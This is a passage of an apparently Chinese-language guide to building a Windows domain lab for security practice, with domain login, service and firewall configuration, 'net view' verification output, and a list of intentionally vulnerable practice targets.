


重启，并使用 `HACKE\testuser` 登录




### Windows Server 2008 配置

与 Win7 同理


### 验证

确认三台机器

- 已加入域网络、
- 防火墙关闭、
- Server ，WorkStation，Computer Browser 三项服务：自动并运行中
  - PS:  Computer Browser默认为手动状态，需要手动调节为自动（需要用管理员身份打开 services.msc 切换）

- 重启


此时，在任意一台机器上 `net view /domain:hacke` 可得到以下结果

```shell
Microsoft Windows [版本 6.3.9600]
(c) 2013 Microsoft Corporation。保留所有权利。

C:\Users\Administrator>net view /domain:hacke
服务器名称            注解

-------------------------------------------------------------------------------
\\DC
\\WIN7-X64-TEST
\\WS08-X64-TEST
命令成功完成。
```


### 其他服务器环境

- Metasploitable2
- Metasploitable3
- OWASPBWA
- DVWA


